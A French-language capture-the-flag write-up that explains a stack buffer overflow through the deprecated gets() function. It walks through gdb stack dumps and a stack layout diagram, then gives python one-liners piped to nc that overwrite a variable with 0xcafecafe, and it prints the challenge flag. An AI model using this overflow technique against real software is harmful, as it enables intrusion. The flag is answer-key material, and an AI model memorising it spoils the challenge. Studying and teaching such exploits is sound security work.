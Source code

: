 # Write up

La fonction `gets` est dépréciée car elle n'est pas sécuritaire, mais elle existe toujours. Dans la plupart des versions de son `manpage`, on retrouve la phrase "Never use this function.". Cette fonction vulnérable nous permet de dépasser le _buffer_ alloué pour notre nom afin de modifier la valeur d'une variable pour passer la vérification qui nous donnera accès au flag.

En ouvrant le programme dans `gdb`, on peut voir l'état de la _stack_, pour observer le positionnement des variables dans celle-ci. Ceci nous permettra de mieux savoir comment exploiter le dépassement de tampon.

Dans l'exemple suivant, j'ai entré "TESTEST" comme nom. Voici la _stack_ près l'appel à `gets`:

```
gef➤  x/12wx $rsp
0x7fffffffd9d0: 0x54534554      0x00545345      0xf7e29ba5      0x00007fff
0x7fffffffd9e0: 0x00000004      0x42060000      0xae147ae1      0x406f8147
0x7fffffffd9f0: 0xffffffff      0xffffffff      0x00000000      0x00000005
// emplacement de $rbp
```

Remarquez que l'espace restant après le byte NUL (0x00) qui reste de terminateur de chaîne de caractère contient une valeur qui semble être une addresse. Ceci est simplement dû au fait que la mémoire n'est pas toujours réinitialisée sauf si on le fait explicitement. Comme une _string_ est terminée par un byte NUL, ce qui se trouve après celui-ci ne sera pas considéré.

En utilisant la taille de chacun des types ainsi que les valeurs connues des variables, on peut faire une représentation visuelle de la pile comme ceci:

```
                | 16 bytes                         |
                |  8 bytes      |  8 bytes         |
                |  4    | 4     |   4    |  4      |
                |----------------------------------|
                |----------------------------------|
0x7fffffffd9d0  | qui                              |
                |----------------------------------|
0x7fffffffd9e0  | quand | ou    | comment          |
                |----------------------------------|
0x7fffffffd9f0  | quoi          |padding | pourquoi|
                |----------------------------------|
0x7fffffffda00  | <Base de la frame actuelle de pile> ($rbp)
```

Notez que les addresses données dans l'exemple vont varier pour chaque machine et chaque exécution. Ceci n'est pas un problème.

Comme on peut observer dans les instructions suivant l'appel à `gets`, notre objectif est que la variable située à $rbp-4, (`pourquoi`, qui vaut actuellement 5) vale 0xcafecafe.

```
0x5555555551b7 <degoutte+78>    mov    eax, DWORD PTR [rbp-0x4]
0x5555555551ba <degoutte+81>    cmp    eax, 0xcafecafe
```

Il faut donc que l'on envoie un payload de 48 bytes, dont les 4 dernières sont 0xcafecafe. Il existe plusieurs manières d'écrire des bytes `raw` via la ligne de commandes. Nous avons utilisé `python` pour le faire.

```
python2 -c 'print("A"*44 + "\xfe\xca\xfe\xca")' | nc unitedctf.ca 17000

ou bien

python3 -c 'import sys; sys.stdout.buffer.write(b"A"*44 + b"\xfe\xca\xfe\xca" + b"\n")' | nc localhost 17000
```

Et on obtient le flag FLAG-Buff3r_0verflow3d_nh6qAgs0Yw4 !

